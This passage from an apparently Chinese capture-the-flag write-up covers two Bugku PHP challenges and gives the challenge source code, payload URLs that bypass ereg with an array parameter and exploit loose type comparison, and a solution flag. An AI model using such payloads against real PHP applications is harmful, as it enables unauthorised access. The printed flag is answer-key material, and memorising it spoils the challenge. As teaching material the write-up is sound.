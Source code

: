 ### 题目源码

```
<?php
$flag = "flag";
if (isset ($_GET['password'])) {
	if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
		echo 'You password must be alphanumeric';
	else if (strpos ($_GET['password'], '--') !== FALSE)
		die('Flag: ' . $flag);
	else
		echo 'Invalid password';
}
?>
```

### writeup

1. 题目提示很明显

2. 数组构造payload：

   http://123.206.87.240:9009/19.php?password[]=1

### flag

flag{ctf-bugku-ad-2131212}

## 0x06弱类型整数大小比较绕过

### [题目地址](http://123.206.87.240:9009/22.php)

### 题目源码

```
<?php
$temp = $_GET['password'];
is_numeric($temp)?die("no numeric"):NULL;
if($temp>1336){
	echo $flag;
}
?>
```

### writeup

1. 利用弱类型比较漏洞

2. is_numeric()判断是否为number类型,int float

3. 构造payload：

   http://123.206.87.240:9009/22.php?password=1337a
